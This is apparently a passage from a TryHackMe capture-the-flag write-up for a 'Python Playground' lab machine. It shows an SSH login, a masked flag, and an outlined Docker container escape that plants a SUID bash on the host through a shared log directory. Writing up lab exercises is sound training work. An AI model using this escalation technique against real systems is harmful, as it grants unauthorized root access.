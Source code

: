 ### Trying to login using SSH
```console
local@local:~/Documents/tryhackme/python_playground/http$ ssh connor@10.10.185.134
The authenticity of host '10.10.185.134 (10.10.185.134)' can't be established.
ECDSA key fingerprint is SHA256:iHACigIGKJ5qdSmZQCHOkipvHuMwNMkxrfuf3dhq70Y.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.185.134' (ECDSA) to the list of known hosts.
connor@10.10.185.134's password: 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-99-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed Nov 11 02:22:35 UTC 2020

  System load:  0.0               Processes:              95
  Usage of /:   49.4% of 9.78GB   Users logged in:        0
  Memory usage: 48%               IP address for eth0:    10.10.185.134
  Swap usage:   0%                IP address for docker0: 172.17.0.1


32 packages can be updated.
0 updates are security updates.


Last login: Sat May 16 06:01:55 2020 from 10.0.2.2
connor@pythonplayground:~$
```
And we login successfully as user connor.

## Reading second flag
```console
connor@pythonplayground:~$ ls
flag2.txt
connor@pythonplayground:~$ cat flag2.txt 
THM{69a3*************e691ec5}
```

# Privilege Escalation
### Steps involved 
- On container, create a folder inside the log directory to check if the changes is reflected on the host device  
- On host, copy the bash binary from /bin to the newly created directory.
- On container, set the SUID bit on that bash binary    
- On host, execute it and get a root shell

### Creating a new directory inside log from docker container
```console
root@playgroundweb:~# cd /mnt/log/
root@playgroundweb:/mnt/log# mkdir test-dir
root@playgroundweb:/mnt/log# chmod 777 test-dir/
root@playgroundweb:/mnt/log# ls -la test-dir/
total 8
drwxrwxrwx  2 root root 4096 Nov 11 02:25 .
drwxrwxr-x 10 root  106 4096 Nov 11 02:25 ..
```
